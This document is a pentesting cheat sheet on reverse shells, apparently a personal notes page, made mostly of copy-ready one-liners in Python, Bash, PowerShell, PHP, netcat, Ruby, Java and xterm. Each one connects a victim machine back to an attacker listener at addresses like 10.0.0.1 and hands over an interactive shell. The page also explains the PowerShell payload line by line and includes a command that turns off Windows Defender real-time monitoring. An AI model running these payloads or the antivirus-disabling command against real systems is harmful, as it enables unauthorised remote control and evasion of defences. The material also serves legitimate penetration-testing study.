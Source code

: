 ```yaml
---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - reverse shells
---
```


# Reverse shells

Victim's machine Initiates a connection back to a "listener" on our attacking machine box. 

For this attack to work, first  we set the listener in the attacking machine using netcat.

```shell-session
nc -lnvp 1234
```

After that, on the victim's machine, you can launch the reverse shell connection. 

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.


## Reverse shell connections

### python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```

### powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# same, but without assigning $client to the new object
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# powershell -nop -c 
# Executes powershell.exe with no profile (nop) and executes the command/script block (-c or -Command) contained in the quotes

# "$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);
# Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443). The semi-colon (;) ensures the commands & code are executed sequentially.

# $stream = $client.GetStream();
# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. 

# [byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.


# {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
# Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. 

# $sendback = (iex $data 2>&1 | Out-String ); 
# Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard input (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 

# $sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
# Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. 

# $sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

```


```powershell-session
 Set-MpPreference -DisableRealtimeMonitoring $true
```
### php

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


### netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  

### xterm

```bash
xterm -display 10.0.0.1:1
```


## Some more resources

| Reverse shell | Link to resource |
| ------------- | ---------------- |
| Netcat for windows 32/64 bit | [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe) |
| Pentesmonkey | [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) |
